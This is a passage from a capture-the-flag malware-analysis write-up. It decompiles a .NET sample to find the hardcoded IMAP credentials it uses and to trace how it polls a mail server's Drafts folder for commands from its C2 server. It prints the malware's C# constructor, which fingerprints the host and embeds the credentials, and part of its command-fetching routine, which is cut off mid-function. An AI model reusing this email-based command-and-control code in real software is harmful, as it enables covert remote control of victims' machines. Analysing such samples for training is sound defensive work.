 ### Flag 4

The next task is finding the credentials the malware uses for authentication to an `IMAP` server.

If we inspect the binary, we can find, that it's a `.NET` executable, so we can use a decompiler to see the source code. There are multiple options for that, for example: [AvaloniaILSpy](https://github.com/icsharpcode/AvaloniaILSpy). Once the program is decompiled, we can quickly find a variable named `creds`, that contains the credentials.

```c#
static Program()
	{
		string[] obj = new string[5]
		{
			Environment.MachineName,
			"_",
			Environment.UserName,
			"_",
			null
		};
		int num = 4;
		obj[num] = Environment.OSVersion?.ToString();
		comp_id = Base64Encode(string.Concat(obj));
		creds = "proplayer@email.com:completed:mail.korptech.net:0000000000000000000000000000000000000000000000000000000";
		r_creds = "proplayer1@email.com:completed:mail.korptech.net:000000000000000000000000000000000000000000000000000000000";
		ssl = null;
		tcp = null;
	}
```

If we look further, we can also find a call to the `Login` method, that shows us how to parse this variable.

```c#
Login(creds.Split(new char[1] { ':' })[0], creds.Split(new char[1] { ':' })[1]);
```

### Flag 5

The next flag is the name of a scheduled task. To find it we need to dig deepet into the source code.

Starting from the `Main` method, we can find, that a function called `readFile` is called periodically, and the returned value is then executed as a system command. This means that this is how the malware receives commands from the `C2 server`.

```c#
private static string[] readFile()
{
	connect(creds.Split(new char[1] { ':' })[2], 143);
	Login(creds.Split(new char[1] { ':' })[0], creds.Split(new char[1] { ':' })[1]);
	try
	{
		selectFolder("Drafts");
	}
	catch
	{
		selectFolder("INBOX.Drafts");
	}
	string[] array = searchMessages(comp_id);
	if (array.Length == 0)
	{
		return new string[0];
	}
	string message_number = array[^1];
```